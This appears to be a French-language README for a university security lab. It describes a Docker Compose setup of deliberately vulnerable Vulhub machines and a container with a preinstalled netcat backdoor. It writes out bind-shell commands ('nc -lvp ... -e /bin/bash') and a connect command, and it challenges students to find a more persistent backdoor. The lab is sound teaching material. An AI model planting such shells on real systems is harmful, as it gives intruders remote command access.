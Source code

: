 # Infrastructure pour le labo 1

Ce répertoire contient le `docker-compose.yaml` pour faire l'infrastructure tu
labo 1.
Vous pouvez lancer l'infrastructure vous-même avec la commande suivante:

```
docker-compose up -d
```

La première fois ça prend pas mal de temps vu que docker doit télécharger les fichiers.
La plupart des machines viennent du projet [Linux Vulhub](https://github.com/vulhub/vulhub) et présentent une ou plusieurs vulnérabilités.
Les machines suivantes ont été ajoutées manuellement:

- wireguard - qui permet une connexion sécurisée depuis l'extérieur
- netcat - avec une backdoor pré-installé
- huge - qui contient plusieurs services

## Connection

Afin de vous connecter au système, vous pouvez utiliser:

```
docker exec -ti wireguard
```

Ce qui vous donne le même accès comme vous avez eu au cours avec Wireguard.

## Netcat backdoor

Le docker `netcat` à l'adresse `10.1.1.3` contient un backdoor très simple qui est démarré comme suite:

```
nc.traditional -lvp 4444 -e /bin/bash
```

Ceci lance la commande `netcat` en écoutant sur le port `4444` et en connectant les entrées et sorties avec la commande `/bin/bash`.
Pour éviter qu'un·e étudiant·e bloque les autres en se connectant sur ce port, il y a une boule infinie, plus une deuxième boucle qui arrète `netcat` tous les 10 secondes.
Vous trouverez la commande complète dans le [Dockerfilen.nc](Dockerfile.nc).

Pour accéder à ce backdoor, vous pouvez lancer

```
nc 10.1.1.3 4444
```

Et vous avez jusqu'à 10 secondes pour explorer le système et trouver le `password.txt`.
Si vous voulez avoir plus de temps, vous pouvez aussi lancer vous-même un backdoor supplémentaire sur la machine 10.1.1.3:

```
nc.traditional -lvp 5555 -e /bin/bash &
```

Bon - ceci ne marche pas, parce que le `Dockerfile.nc` contient une ligne qui termine tous les processus qui contiennent la chaîne `bash`.
A vous de trouver un meilleur moyen - sans changer le `Dockerfile.nc`!